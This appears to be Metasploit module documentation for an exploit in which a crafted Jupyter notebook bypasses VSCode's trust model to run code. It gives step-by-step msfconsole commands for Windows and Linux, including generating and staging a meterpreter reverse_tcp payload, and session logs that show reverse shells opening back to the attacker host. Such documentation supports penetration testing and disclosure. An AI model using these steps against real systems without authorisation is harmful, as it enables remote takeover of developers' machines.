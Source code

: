 ## Vulnerable Application

VSCode when opening an Jupyter notebook (.ipynb) file bypasses the trust model.
On versions v1.4.0 - v1.71.1, its possible for the Jupyter notebook to embed
HTML and javascript, which can then open new terminal windows within VSCode.
Each of these new windows can then execute arbitrary code at startup.

During testing, the first open of the Jupyter notebook resulted in pop-ups
displaying errors of unable to find the payload exe file. The second attempt
at opening the Jupyter notebook would result in successful execution.

Successfully tested against VSCode 1.70.2 on Windows 10 and Ubuntu 22.04.

### Install

From https://code.visualstudio.com/updates/v1_70

https://update.code.visualstudio.com/1.70.2/win32-x64-user/stable

https://update.code.visualstudio.com/1.70.2/linux-deb-x64/stable


## Verification Steps

### Windows
1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set lhost [ip]`
1. Do: `run`
1. In VSCode, open the URL (File -> Open -> Paste/type the URL)
1. After the pop-up errors, open the file again.
1. You should get a shell.

### Linux
1. Install the application
1. Start msfconsole
1. Do: `use linux/x64/meterpreter/reverse_tcp`
1. Do: `set lhost [ip]` and `set lport [port]`
1. Do: `geneate -o shell.sh -f elf`
1. Copy the payload `shell.sh` to `/tmp/` on the target and run `chmod +x /tmp/shell.sh`
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set target 1 `
1. Do: `set lhost [ip]` and `set lport [port]` - be sure to set these to the same values as in the previous step
1. Do: `set FETCH_WRITABLE_DIR /tmp/`
1. Do: `set PAYLOAD_FILENAME shell.sh`
1. Do: `run`
1. Copy the ipynd payload file to the target machine.
1. In VSCode, open the URL (File -> Open -> project.ipynb)
1. After the pop-up errors, open the file again.
1. You should get a shell.

## Options

## Scenarios

### VSCode 1.70.2 on Windows 10

```
resource (ipynb)> use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (ipynb)> set fetch_srvport 9090
fetch_srvport => 9090
resource (ipynb)> rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.10.147:4444 
[*] Starting up web service...
[*] Using URL: http://192.168.10.147:8080/project.ipynb
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100


[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Meterpreter session 1 opened (192.168.10.147:4444 -> 192.168.10.100:56964) at 2024-03-21 12:38:13 +0000
[*] Meterpreter session 2 opened (192.168.10.147:4444 -> 192.168.10.100:56967) at 2024-03-21 12:38:14 +0000
^C[-] Exploit failed [user-interrupt]: Interrupt 
[*] Server stopped.
[-] rexploit: Interrupted
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > shell
Process 9632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4170]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h00die>code --version
code --version
1.70.2
e4503b30fc78200f846c62cf8091b76ff5547662
x64

C:\Users\h00die>
```

### VSCode 1.70.2 on Linux

```
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Starting up web service...
[*] Using URL: http://172.16.199.1:8090/project.ipynb
[*] Sent project.ipynb to 172.16.199.131
[*] Sending stage (3045380 bytes) to 172.16.199.131
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.131:60298) at 2024-05-13 09:56:36 -0700

^C[-] Exploit failed [user-interrupt]: Interrupt
[*] Server stopped.
[-] run: Interrupted
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         meterpreter x64/linux  msfuser @ 172.16.199.131  172.16.199.1:4444 -> 172.16.199.131:60298 (172.16.199

msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer     : 172.16.199.131
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
